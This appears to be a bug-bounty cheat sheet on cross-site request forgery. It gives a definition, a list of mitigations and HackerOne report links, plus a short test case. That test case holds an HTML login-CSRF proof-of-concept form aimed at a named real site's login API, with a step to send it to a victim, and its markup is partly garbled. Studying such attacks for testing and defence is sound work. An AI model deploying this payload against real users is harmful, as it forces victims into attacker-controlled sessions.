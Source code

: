 # CSRF

>Cross Site Request Forgery is an attack that forces an end user to execute unwanted action on a web application in which they are currently authenticated.

## Prerequisites:
> User should have active session.

## Mitigation

1. CSRF Token: Token is added in hidden form field, unique per session, large random value.
1. Synchronizer Token Pattern
2. Encryption Based Token Pattern
3. Hash Based Token Pattern
4. Same Site Cookie Attribute
5. Double Submit Cookie (Cookie & request parameter).
6. Re-authentication, One-time token, Captcha (Strong CSRF defense).

## Test Cases:


1. Create a CSRF login POC using the following code.

```
<html>
<body>
<form action="https://unikrn.com/apiv1/login" method="POST">
<```input type="hidden" name="usr" value="[email]"```>
<```input type="hidden" name="pwd" value="[password]"```>
<```input type="submit" value="Submit request" /```>
</form>
</body>
</html>
```


2. Replace the email and password with the valid credentials.
3. Send the script to the victim to make them click.

## Example/POC :

* [CSRF logs the victim into attacker's account](https://hackerone.com/reports/339352)
* [CSRF: add item to victim's cart automatically (starbucks.com - updatecart)](https://hackerone.com/reports/177472)
* [login csrf in analytics.mopub.com](https://hackerone.com/reports/577920)
* [CSRF at (Apply to this program) that lead to submit your request automatic with out any validations](https://hackerone.com/reports/334253)
